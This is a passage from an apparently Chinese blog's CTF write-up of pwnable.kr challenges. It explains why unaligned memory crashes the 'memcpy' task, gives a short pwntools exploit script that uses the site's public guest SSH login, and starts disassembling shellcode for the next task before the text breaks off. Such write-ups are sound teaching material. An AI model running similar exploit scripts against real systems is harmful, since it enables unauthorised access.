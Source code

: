 https://www.jianshu.com/p/a66adda1d0be

[https://zh.wikipedia.org/wiki/%E8%BF%B7%E9%80%94%E6%8C%87%E9%92%88](https://zh.wikipedia.org/wiki/迷途指针)

## 0x11 memcpy

看源码觉得，真的就随便输一下执行完实验就好了？

但是随便输值得话会crash....

问题出在 movntps 这条汇编指令上

> Moves the packed double-precision floating-point values in the source operand (second operand) to the destination operand (first operand) using a non-temporal hint to prevent caching of the data during the write to memory. The source operand is an XMM register, YMM register or ZMM register, which is assumed to contain packed double-precision, floating-pointing data. The destination operand is a 128-bit, 256-bit or 512-bit memory location. **The memory operand must be aligned on a 16-byte (128-bit version), 32-byte (VEX.256 encoded version) or 64-byte (EVEX.512 encoded version) boundary otherwise a general-protection exception (#GP) will be generated.**

要求16位对齐

观察malloc过程

> malloc在分配内存时它实际上还会多分配4字节用于存储堆块信息，所以如果分配a字节实际上分配的是a+4字节。另外32位系统上该函数分配的内存是以8字节对齐的。

有了这两点就知道程序的异常退出是因为分配的内存没有16字节对齐，那么要让程序正常进行拿到flag只需要每次分配的内存地址能够被16整除就可以了。

（实际上由于malloc函数分配的内存8字节对齐，只要内存大小除以16的余数大于9就可以了）。

**Exp**

```python
#coding=utf-8
from pwn import *
context.log_level = 'DEBUG'

shell = ssh(host="pwnable.kr",user="memcpy",port=2222,password="guest")
io = shell.connect_remote("0.0.0.0",9022)
#io=process("./memcpy")
io.recvuntil("specify the memcpy amount between 8 ~ 16 :")
io.sendline('8')
for i in range(9):
    payload = str(pow(2, i+4)+10)
    io.sendlineafter(': ', payload)
io.interactive()
```



## 0x12 shellcode

stub中的内容

```
python
>>> from pwn import *
>>> print disasm("\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff")
   0:   48                      dec    eax
   1:   31 c0                   xor    eax, eax
   3:   48                      dec    eax
   4:   31 db                   xor    ebx, ebx
   6:   48                      dec    eax
   7:   31 c9                   xor    ecx, ecx
   9:   48                      dec    eax
   a:   31 d2                   xor    edx, edx
   c:   48                      dec    eax
```